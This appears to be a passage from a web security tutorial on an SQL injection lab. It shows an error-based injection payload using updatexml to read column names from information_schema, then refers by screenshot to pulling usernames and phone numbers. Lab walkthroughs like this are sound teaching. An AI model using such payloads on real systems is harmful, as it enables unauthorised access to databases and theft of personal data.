 **Query to read exfiltrate `columns`:** `updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_name='nominee' limit 0,1 )),null)-- -`

![Login_Columns_1](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_Columns_1.png)

![Login_Columns_2](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_Columns_2.png)

Now, we have columns and tables let's extract usernames and phone numbers, etc from database.

![Login_Extract_Data](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_Extract_Data.png)
